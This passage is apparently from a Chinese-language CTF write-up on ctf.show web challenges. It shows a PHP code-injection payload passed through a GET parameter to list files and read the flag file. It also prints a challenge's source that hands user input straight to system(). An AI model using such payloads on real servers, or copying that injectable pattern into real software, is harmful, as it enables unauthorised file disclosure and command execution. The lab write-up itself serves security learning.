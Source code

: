 可以看到我们要访问倒数第二个文件，所以我们接下来的代码是

```php
http://5a6291ec-129d-4e7f-b30b-7776441151ff.challenge.ctf.show/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));
```

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

得到flag。

***

## <mark style="color:blue;background-color:orange;">(13)Web 41</mark>

不会，需要脚本，先跳过了。

***

## <mark style="color:blue;background-color:orange;">（14）Web 42</mark>

```php
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 20:51:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
} 
```
